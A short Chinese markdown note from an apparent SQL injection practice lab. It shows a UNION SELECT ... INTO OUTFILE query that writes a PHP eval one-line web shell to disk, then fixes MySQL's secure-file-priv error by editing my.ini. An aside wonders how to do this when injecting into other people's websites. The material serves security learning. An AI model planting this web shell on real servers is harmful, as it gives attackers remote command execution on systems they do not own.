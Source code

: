 # 坑

## MYSQL导出数据出现The MySQL server is running with the --secure-file-priv option

执行语句

```
select * from security.users where id=1 union select 1,2,'<?php eval($_POST[giantbranch]);?>' into outfile 'C:\\Users\\Administrator\\Desktop\\test.php';
```

的时候报错

```
ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
```

一脸懵逼，教程上也没有啊 -- 自己百度把，其实是个简单问题，就是说导出文件的那个目录不在mysql支持的安全导出目录呗，咱们加上去就行了（那么在别人家的网页sql注入的时候怎么加嘞，这是个问题诶）

先找到mysql的安装根目录，打开my.ini配置文件，加上这句话`secure_file_priv = "C:\Users\Administrator\Desktop"`即可,顺手说明在mysql命令行中写`select @@basedir`可以找到mysql安装根目录哟

![k_1](.\images\k_1.png)

